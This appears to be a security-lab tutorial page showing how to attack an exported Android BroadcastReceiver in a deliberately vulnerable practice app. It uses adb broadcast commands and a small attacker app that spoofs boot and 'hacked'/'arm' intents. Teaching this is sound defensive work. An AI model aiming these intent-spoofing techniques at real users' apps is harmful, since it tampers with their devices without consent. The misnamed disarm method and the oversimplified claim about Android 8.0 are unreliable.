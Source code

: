 # BroadcastReceiver Hacking

#### How to Send a Broadcast Using Activity Manager (am) in Android

In Android, you can send broadcasts to receivers defined in the `AndroidManifest.xml`. Here’s a detailed guide on how to do this effectively.

**Defining Intent Filters in `AndroidManifest.xml`**

First, define your receiver and its intent filters in the `AndroidManifest.xml`. For example:

```xml
<receiver android:name=".MyReceiver">
    <intent-filter>
        <action android:name="com.example.MY_ACTION" />
    </intent-filter>
</receiver>
```

In our example application, the receiver is configured to listen for two actions: `BOOT_COMPLETED` and `LOCKED_BOOT_COMPLETED`.

<figure><img src="../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

**Sending a Broadcast Using `adb`**

To send a broadcast to this receiver using `adb shell`, you can utilize the `am` (Activity Manager) command. Here’s how to send a `BOOT_COMPLETED` broadcast:

```sh
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED
```

After executing this command, you should observe in logcat that the application is handling the broadcast, possibly performing a system reset.

<figure><img src="../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

**Compatibility with Newer Android Versions**

The above method works for older versions of Android. For Android 8.0 (Oreo) and higher, broadcast receivers need to be registered in the Java code, not just in the manifest.

<figure><img src="../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

**Checking the `onReceive` Method**

Let’s examine the `onReceive` method in your BroadcastReceiver. Typically, it might process extras included in the broadcast intent. For example, it could be looking for an extra with the key `status`:

```java
@Override
public void onReceive(Context context, Intent intent) {
    String status = intent.getStringExtra("status");
    if ("hacked".equals(status)) {
        // Handle the "hacked" status
    } else if ("arm".equals(status)) {
        // Handle the "arm" status
    }
}
```

**Here is what we got in our vuln-app**

<figure><img src="../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

**Sending a Custom Broadcast**

To test your receiver by sending a custom broadcast with an extra value, use the `am` command. For instance, to send a status of "hacked", execute:

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "hacked"
```

<figure><img src="../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

You should see logcat messages indicating that the application has processed the "hacked" status.

<figure><img src="../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

**Arming the Alarm System**

Similarly, to arm the alarm system, you can send a broadcast with the status set to "arm":

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "arm"
```

<figure><img src="../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

By following these steps, you can effectively send broadcasts using the Activity Manager in Android, whether you are working with older versions or the latest ones.

<figure><img src="../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

### SO our Hacking App's **`MainActivity.java`** code&#x20;

```java
package com.apphacking.broadcasthacking;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.os.Bundle;
import android.view.View;


public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
    }


    public void disarmAlarmSystem(View view) {

        Intent intent = new Intent();
        intent.setAction("com.apphacking.broadcastreceiver.alarmState");
        intent.putExtra("status","arm");
        sendBroadcast(intent);
    }


}
```
